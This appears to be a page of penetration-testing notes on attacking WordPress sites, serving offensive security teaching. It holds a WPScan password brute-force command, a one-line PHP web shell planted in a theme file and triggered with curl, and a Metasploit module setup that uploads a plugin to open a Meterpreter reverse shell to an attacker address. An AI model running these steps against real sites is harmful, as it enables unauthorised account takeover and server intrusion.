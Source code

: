 ```yaml
---
icon: wordpress
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# WordPress

## Login Brute Force

### WPScan

[wpscan.md](../../../../toolbox/tooling/web-application-analysis/wpscan.md "mention") can be used to brute force usernames and passwords. The tool uses two kinds of login brute force attacks, [xmlrpc](https://kinsta.com/blog/xmlrpc-php/) and wp-login. The `wp-login` method will attempt to brute force the standard WordPress login page, while the `xmlrpc` method uses WordPress API to make login attempts through `/xmlrpc.php`. The `xmlrpc` method is preferred as it’s faster.

{% code title="Command" overflow="wrap" %}
```bash
sudo wpscan --password-attack xmlrpc -t 20 -U admin -P /usr/share/wordlists/rockyou.txt --url http://blog.acme.com
```
{% endcode %}

* `--password-attack`: Select the type of attack
* `-U`: A list of users or a file containing user names.
* `-P`: A list of passwords or a file containing a password list.
* `-t`: Thread count.

## Code Execution

### Theme Editor

With administrative access to WordPress, we can modify the PHP source code to execute system commands. Navigate to the Theme Editor, this page will let us edit the PHP source code directly.

Click on `Select` after selecting the theme, and edit an uncommon page such as `404.php` to add a web shell.

{% hint style="warning" %}
An inactive theme should be selected to avoid corrupting the primary theme.
{% endhint %}

{% code title="PHP Web Shell" %}
```php
system($_GET[0]);
```
{% endcode %}

We can interact with the web shell via the browser or using `cURL`. Utilise this access to gain an interactive reverse shell.

{% code title="Command" overflow="wrap" %}
```bash
curl http://blog.acme.com/wp-content/themes/twentynineteen/404.php?0=id
```
{% endcode %}

{% code title="Output" %}
```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
{% endcode %}

### Metasploit

With admin access we can use the [wp\_admin\_shell\_upload](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload/) module from [metasploit](../../../../toolbox/tooling/exploitation-tools/metasploit/ "mention"). This can be used to upload a shell and execute it automatically. The module uploads a malicious plugin and then uses it to execute a PHP Meterpreter shell.

{% code title="Example" %}
```bash
msf6 > use exploit/unix/webapp/wp_admin_shell_upload 

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username admin
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password Pa55w0rd!
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15 
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST blog.acme.com
```
{% endcode %}

## Vulnerabilities

{% hint style="success" %}
We can use the [waybackurls](https://github.com/tomnomnom/waybackurls) tool to look for older versions of a target site using the Wayback Machine. Sometimes we may find a previous version of a WordPress site using a plugin that has a known vulnerability. If the plugin is no longer in use but the developers did not remove it properly, we may still be able to access the directory it is stored in and exploit a flaw.
{% endhint %}
